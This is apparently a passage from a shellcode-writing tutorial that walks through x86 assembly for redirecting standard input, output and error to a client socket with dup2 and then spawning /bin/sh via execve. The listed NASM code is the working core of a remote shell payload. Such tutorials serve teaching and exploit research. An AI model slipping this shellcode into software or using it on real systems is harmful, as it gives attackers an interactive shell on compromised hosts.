 The arguments required by the `dup2` syscall can then be identified. As seen below, the two arguments that are required are `oldfd` and `newfd`.

~~~ bash
SYNOPSIS
       #include <unistd.h>

       int dup(int oldfd);
       int dup2(int oldfd, int newfd);
~~~

The `oldfd` argument will contain the client socket file descriptor, which is currently in the `EDX` register.

The `newfd` argument will contain the value for STDIN(0), STDOUT(1) and STDERR(2). The way this is achieved is through a loop that takes advantage of the signed flag. Once the value in `ECX` has been exhausted, the signed flag will be set, thus permitting the exit of the loop.

~~~ nasm
;dup2
mov ebx, edx ;move the client socket file descriptor into EBX to satisfy the oldf2 argument for dup2
xor ecx, ecx  ;clear out ecx
mov cl, 0x2 ;set 2 as the counter for the dup2 loop. The significance of 2 is for STDIN(0), STDOUT(1) and STDERR(2)

redirection_loop:
  mov al, 0x3f ;dup2 syscall
  int 0x80 ;execute dup2 syscall
  dec ecx ;decrement the loop counter
  jns redirection_loop ;conditional jump to the redirection_loop as long as the signed flag (SF) is not set.
~~~

### Execve
Considering that all input, output and error message have been redirected to the client, the last section to complete is the execution of a shell.

The instructions being used are for a really simple stack-based `execve` SYSCALL that executes `/bin/sh`.

The nasm source is located <a href="https://github.com/skahwah/slae/blob/master/execve-stack/execve-stack.nasm">here</a> and a brief breakdown of the shellcode is located <a href="https://popped.io/execve-stack/">here<a>.

~~~ nasm
xor eax, eax  ;zero out eax
push eax      ;push 00000000 on to the stack


push 0x68732f6e ;push hex hs/n on to the stack
push 0x69622f2f ;push hex ib// on to the stack

;at this point the stack contains //bin/sh0x00000000
mov ebx, esp  ;this satisfies the requirements for *filename (first argument of execve)

push eax      ;push 00000000 on to the stack

;at this point the stack contains 0x00000000//bin/sh0x00000000
mov edx, esp  ;we cant pop 0x00000000 into EDX as the shellcode cannot have any null characters.
              ;instead we move the current address pointed to by ESP into EDX.
              ;this address contains the last value pushed on to the stack, which is 0x00000000
              ;this satisfies the requirements for envp (third argument of execve)

push ebx      ;ebx contains the memory address of the stack where //bin/sh0x00000000 is.
mov ecx, esp  ;this satisfies the requirements for argv (second argument of execve)

~~~